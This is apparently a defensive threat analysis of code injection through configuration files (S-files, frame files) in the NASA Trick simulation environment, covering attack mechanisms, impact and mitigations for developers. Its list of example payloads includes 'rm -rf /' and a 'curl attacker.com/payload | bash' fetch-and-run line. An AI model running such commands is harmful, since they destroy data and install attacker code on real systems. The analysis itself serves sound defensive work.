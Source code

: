 ## Deep Analysis: Exploit Trick Configuration Vulnerabilities -> Inject Malicious Code via Configuration Files

This analysis delves into the specific attack path "Exploit Trick Configuration Vulnerabilities -> Inject Malicious Code via Configuration Files" within the context of the NASA Trick simulation environment. We will break down the attack vector, mechanisms, potential impact, and mitigation strategies, providing a comprehensive understanding for the development team.

**Understanding the Context: NASA Trick**

Before diving into the specifics, it's crucial to understand the nature of NASA Trick. It's a powerful simulation environment used for complex systems. This implies:

* **High Stakes:** Simulations often involve critical systems, making security vulnerabilities potentially impactful.
* **Complex Configurations:** Trick relies on various configuration files (S-files, frame files, etc.) to define simulation parameters, models, and execution flow. This inherent complexity increases the attack surface.
* **Potential for Integration:** Trick might interact with other systems or have access to sensitive data during simulations, amplifying the impact of a compromise.

**Deep Dive into the Attack Path:**

**1. Attack Vector: Crafting Malicious Input Files**

The core of this attack lies in the attacker's ability to manipulate configuration files that Trick interprets. These files are not merely data; they influence the behavior and execution of the simulation.

* **Targeted File Types:** The analysis specifically mentions "S-files" and "frame files."
    * **S-files (Simulation Definition Files):** These files define the structure of the simulation, including variables, models, and their relationships. They often contain code-like constructs for initialization and data manipulation.
    * **Frame Files (Execution Control Files):** These files dictate the sequence of events and actions during the simulation. They can contain commands or instructions that influence the simulation's progression.
    * **Other Potential Targets:**  Depending on the specific Trick setup, other configuration files could be vulnerable, such as:
        * **Input Files for Models:** If models read data from external files, these could be manipulated.
        * **Resource Files:** Files defining paths, dependencies, or external resources.
        * **Initialization Scripts:** Scripts executed at the start of the simulation.

* **Malicious Payload Delivery:** The attacker's goal is to embed executable code or commands within these files in a way that Trick will interpret and execute. This payload could be:
    * **Shell Commands:**  Direct operating system commands (e.g., `rm -rf /`, `curl attacker.com/payload | bash`).
    * **Script Snippets:**  Code in languages like Python, Lua, or potentially even C/C++ if Trick has mechanisms for dynamic loading or interpretation.
    * **Manipulated Data Structures:**  Crafted data that, when processed by Trick's logic, triggers unintended actions or exploits underlying vulnerabilities.

**2. Mechanisms Enabling the Attack:**

The analysis highlights two key mechanisms:

* **Lack of Input Sanitization:** This is a critical vulnerability. If Trick doesn't rigorously check and cleanse the content of configuration files, it becomes susceptible to malicious input.
    * **Insufficient Validation:**  Not verifying data types, ranges, formats, and allowed characters.
    * **Missing Encoding/Decoding:**  Failing to properly handle special characters or escape sequences that could be used to inject commands.
    * **Trusting User Input:**  Assuming the content of configuration files is inherently safe.

* **Insecure Parsing:**  The way Trick processes these files can directly lead to code execution.
    * **Direct Execution of Embedded Code:**  Trick might have features that allow embedding and directly executing code snippets within configuration files for flexibility. If not properly secured, this becomes a major vulnerability.
    * **Interpretation of Special Constructs:**  Certain keywords, directives, or syntax within the configuration files might be interpreted as commands to be executed by the underlying system.
    * **Vulnerable Libraries:**  If Trick relies on external libraries for parsing that have known vulnerabilities (e.g., buffer overflows, format string bugs), these could be exploited through crafted configuration files.

**3. Potential Impact: Arbitrary Code Execution**

The consequence of successfully exploiting this vulnerability is severe: **arbitrary code execution**. This means the attacker can execute any code they desire within the context of the Trick process.

* **Immediate Consequences:**
    * **System Compromise:** The attacker gains control over the machine running the Trick simulation.
    * **Data Breach:** Access to sensitive data used in the simulation or present on the system.
    * **Denial of Service:**  Crashing the simulation or the entire system.
    * **Privilege Escalation:**  Potentially gaining higher privileges if the Trick process runs with elevated permissions.

* **Broader Implications (Considering Trick's Context):**
    * **Compromised Simulation Results:**  Manipulating the simulation to produce false or misleading outputs, potentially impacting critical decisions based on these results.
    * **Supply Chain Attacks:**  If malicious configuration files are distributed as part of a simulation package, it could compromise other users.
    * **Lateral Movement:**  Using the compromised Trick instance as a stepping stone to attack other systems on the network.
    * **Intellectual Property Theft:**  Accessing and stealing proprietary simulation models or data.

**4. Mitigation Strategies: A Deeper Look**

The provided mitigation strategies are a good starting point, but we can elaborate on them:

* **Implement Strict Input Validation and Sanitization:** This is paramount.
    * **Whitelisting:** Define allowed characters, keywords, and syntax. Reject anything that doesn't conform.
    * **Data Type Validation:** Ensure data conforms to expected types (e.g., integers, floats, strings).
    * **Range Checking:** Verify that numerical values fall within acceptable limits.
    * **Escape Special Characters:**  Properly encode characters that have special meaning in the parsing logic or the underlying operating system.
    * **Regular Expressions:** Use regular expressions to enforce specific patterns and formats.
    * **Consider using established libraries:** Leverage well-vetted libraries designed for secure parsing and validation.

* **Avoid Direct Execution of Code Embedded within Configuration Files:** This is the most effective way to prevent code injection.
    * **Separate Configuration from Logic:**  Design the system so that configuration files primarily contain data, not executable code.
    * **Use Data-Driven Approaches:**  Instead of embedding code, use configuration to define parameters and let the core application logic handle the execution.
    * **If Code Execution is Necessary:**  Restrict it severely. Use a very limited and controlled scripting language with no access to sensitive system functions. Implement robust sandboxing for any embedded code execution.

* **Consider Using a More Secure Configuration Format:**  Plain text formats like those traditionally used for S-files can be inherently risky.
    * **Structured Data Formats:**  Switch to formats like JSON, YAML, or TOML. These formats are designed for data representation and are less prone to code injection vulnerabilities. They have well-defined parsing libraries that often include built-in security features.
    * **Binary Formats:**  For highly sensitive configurations, consider using binary formats with strong integrity checks and encryption.

* **Run the Configuration Parsing Process in a Sandboxed Environment:** This adds a layer of defense in depth.
    * **Containers (Docker, etc.):** Isolate the parsing process within a container with limited access to the host system.
    * **Virtual Machines:**  Run the parsing in a dedicated VM to prevent broader system compromise.
    * **Operating System Level Sandboxing:** Utilize features like seccomp or AppArmor to restrict the capabilities of the parsing process.

**Further Mitigation Strategies for the Development Team:**

Beyond the initial suggestions, here are additional crucial steps:

* **Principle of Least Privilege:** Run the Trick process with the minimum necessary privileges. This limits the damage an attacker can do even if they achieve code execution.
* **Regular Security Audits and Penetration Testing:**  Conduct thorough reviews of the codebase and configuration parsing logic. Engage external security experts to perform penetration testing and identify vulnerabilities.
* **Secure Coding Practices:**
    * **Input Validation Everywhere:**  Don't just validate at the entry point; validate data at every stage of processing.
    * **Output Encoding:**  When displaying or using data from configuration files, ensure it's properly encoded to prevent cross-site scripting (XSS) if the application has a web interface.
    * **Error Handling:**  Implement robust error handling to prevent attackers from gaining information through error messages.
    * **Avoid System Calls:**  Minimize the use of direct system calls within the parsing logic.
* **Dependency Management:**  Keep all third-party libraries used for parsing and other functionalities up-to-date with the latest security patches.
* **Code Reviews:**  Implement mandatory code reviews with a focus on security to catch potential vulnerabilities before they are deployed.
* **Security Awareness Training:**  Educate the development team about common security vulnerabilities and best practices for secure coding.
* **Implement a Security Response Plan:**  Have a plan in place to address and remediate vulnerabilities if they are discovered.

**Conclusion:**

The attack path "Exploit Trick Configuration Vulnerabilities -> Inject Malicious Code via Configuration Files" represents a significant security risk for NASA Trick. The potential for arbitrary code execution could lead to severe consequences, ranging from compromised simulation results to complete system takeover.

By implementing the recommended mitigation strategies, focusing on strict input validation, avoiding direct code execution in configuration files, and adopting a security-conscious development approach, the development team can significantly reduce the likelihood and impact of this type of attack. Continuous vigilance, regular security assessments, and a proactive approach to security are essential to protect the integrity and security of the Trick simulation environment.
